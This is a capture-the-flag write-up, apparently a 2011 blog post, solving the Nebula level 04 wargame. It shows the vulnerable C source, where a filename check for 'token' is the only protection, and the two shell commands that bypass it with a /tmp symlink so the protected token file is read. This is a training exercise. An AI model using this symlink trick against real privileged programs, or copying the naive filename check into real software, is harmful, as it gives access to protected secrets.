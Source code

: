 ```yaml
---
title: "Exploit Exercises - Nebula 04"
date: "2011-12-05T05:45:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-04.html"
---
```


I really like [Nebula 04](http://exploit-exercises.com/nebula/level04), because it is really easy, but still a commonly missed thing in programming.

<!-- more -->

The object of this challenge is to find a vulnerability and exploit this C++ program.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
 char buf[1024];
 int fd, rc;

 if(argc == 1) {
  printf("%s [file to read]\n", argv[0]);
  exit(EXIT_FAILURE);
 }

 if(strstr(argv[1], "token") != NULL) {
  printf("You may not access '%s'\n", argv[1]);
  exit(EXIT_FAILURE);
 }

 fd = open(argv[1], O_RDONLY);
 if(fd == -1) {
  err(EXIT_FAILURE, "Unable to open %s", argv[1]);
 }

 rc = read(fd, buf, sizeof(buf));

 if(rc == -1) {
  err(EXIT_FAILURE, "Unable to read fd %d", fd);
 }

 write(1, buf, rc);
}
```

So this program first verifies that you did pass it an argument of some sort. If you pass that check, it then makes sure that your argument does not contain the term "token", since the developer knows the filename they want to protect. If both of those suceed, it tries to open the file, and print it to the screen, as long as it exists, and has no general read errors.

So to exploit this program, we need to pass the program an argument, and it needs to not contain the term "token" in it. So all we need to do is make a symbolic link.

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
level04@nebula:/home/flag04$ ./flag04 /tmp/level04
06508b5e-8909-4f38-b630-fdb148a848a2
```

The only odd part about this challenge is that there's apparently no privilege escalation done, so you can run "getflag", like every other problem up until now. [Someone else](http://exploit-exercises.com/nebula/level04#comment-375659125) noticed the same thing, but there has been no answer.  So as far as I'm concerned, this challenge is complete. We got the contents of the token file.
